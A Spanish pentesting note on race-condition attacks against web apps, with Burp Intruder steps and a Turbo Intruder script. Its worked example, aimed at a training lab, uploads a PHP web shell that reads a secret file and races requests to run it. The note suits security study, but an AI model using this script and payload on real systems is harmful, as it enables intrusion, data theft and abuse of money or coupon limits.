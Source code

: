 # RACE CONDITION

- [[#INTRODUCCION|INTRODUCCION]]
- [[#Cualquier cosa limitada por un número de intentos|Cualquier cosa limitada por un número de intentos]]
- [[#ATAQUE|ATAQUE]]
- [[#CUANDO PROBAR|CUANDO PROBAR]]
- [[#EJEMPLOS REALES|EJEMPLOS REALES]]
- [[#RACE CONDITION TOKEN OAUTH|RACE CONDITION TOKEN OAUTH]]


## INTRODUCCION

Este ataque consiste en enviar muchas peticiones en paralelo para ver si se ejecuta algo varias veces, por ejemplo realizar una transferencia de dinero, canjear un descuento y demas, si se envia una peticion se realizara la accion una vez pero puede ser que si se enviar unas 100 peticiones identicas en paralelo se ejecute unas 5 veces o mas o menos.

## Cualquier cosa limitada por un número de intentos

Este ataque se puede probar en una accion que **limitan el número de veces que puedes realizar una acción**. 

## ATAQUE

Necesitaremos burp para probar esto:

- Mandamos una peticion al intruder.
- definimos los valores del atawue intruder
- Cambiamos la cantidad de procesos a enviar, **options > Request Engine > Number of threads** en un valor como **999**.
-Le damos a atacar.

Si esta configurado correctamente, deberia realizarce la accion una vez pero si se realizo varias veces, veremos muchos con status 200 OK.

Ejemplo:

[https://pravinponnusamy.medium.com/race-condition-vulnerability-found-in-bug-bounty-program-573260454c43](https://pravinponnusamy.medium.com/race-condition-vulnerability-found-in-bug-bounty-program-573260454c43)

-----------------------------------------------------

Otra forma de ataque es con la extension **turbo intruder** de burpsuite:

instalacion: Extender > bApp Store >Turbo intruder > Installing

una vez interceptada la peticion hacemos click derecho **Extensiones > Turbo Intruder > Enviar a Turbo Intruder**

podemos tomar esta base de script:

```python
def queueRequests(target, wordlists):
	engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,) 
	request1 = '''<YOUR-POST-REQUEST>'''
	request2 = '''<YOUR-GET-REQUEST>''' 
	
	# the 'gate' argument blocks the final byte of each request until openGate is invoked 
	
	engine.queue(request1, gate='race1') 
	
	for x in range(5): 
		engine.queue(request2, gate='race1') 
		
	# wait until every 'race1' tagged request is ready 
	# then send the final byte of each request 
	# (this method is non-blocking, just like queue) 
	engine.openGate('race1') 
	engine.complete(timeout=60) 
def handleResponse(req, interesting): 
	table.add(req)
```

ejemplo:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''
POST /my-account/avatar HTTP/1.1
Host: ac931f261e641f2ec0d4480d00f10075.web-security-academy.net
Cookie: session=ooe5IIg2o4MNOsPw0zhhobgr2cp0ulMX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------289758322936814217033325707942
Content-Length: 534
Origin: https://ac931f261e641f2ec0d4480d00f10075.web-security-academy.net
Referer: https://ac931f261e641f2ec0d4480d00f10075.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

-----------------------------289758322936814217033325707942
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php
  system("cat /home/carlos/secret")
?>

-----------------------------289758322936814217033325707942
Content-Disposition: form-data; name="user"

wiener
-----------------------------289758322936814217033325707942
Content-Disposition: form-data; name="csrf"

9iZgZW5QqzkTQe03D8ySdVP7FYJYrkAU
-----------------------------289758322936814217033325707942--
'''

    request2 = '''
GET /files/avatars/exploit.php HTTP/1.1
Host: ac931f261e641f2ec0d4480d00f10075.web-security-academy.net
Cookie: session=ooe5IIg2o4MNOsPw0zhhobgr2cp0ulMX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

Si elige generar la `GET` solicitud manualmente, asegúrese de terminarla correctamente con una secuencia `\r\n\r\n` o un enter. Recuerde también que Python conservará cualquier espacio en blanco dentro de una cadena de varias líneas, por lo que debe ajustar la sangría en consecuencia para asegurarse de que se envíe una solicitud válida.

[https://www.hackingarticles.in/burp-suite-for-pentester-turbo-intruder/](https://www.hackingarticles.in/burp-suite-for-pentester-turbo-intruder/)

## CUANDO PROBAR

- Transferencias de dinero.
- Canjeo de cupon o descuento.
- Registro de usuarios
- La mayoría de las veces esto está directamente relacionado con **el dinero** (si se realiza una acción obtienes X dinero, así que intentemos hacerlo varias veces muy rápido).

## EJEMPLOS REALES

- [https://hackerone.com/reports/759247](https://hackerone.com/reports/759247)
- [https://hackerone.com/reports/55140](https://hackerone.com/reports/55140)
- [https://pandaonair.com/2020/06/11/race-conditions-exploring-the-possibilities.html](https://pandaonair.com/2020/06/11/race-conditions-exploring-the-possibilities.html)

## RACE CONDITION TOKEN OAUTH

- [https://pandaonair.com/2020/06/11/race-conditions-exploring-the-possibilities.html](https://pandaonair.com/2020/06/11/race-Conditions-exploring-the-possibilities.html)
- [https://book.hacktricks.xyz/pentesting-web/race-condition](https://book.hacktricks.xyz/pentesting-web/race-condition)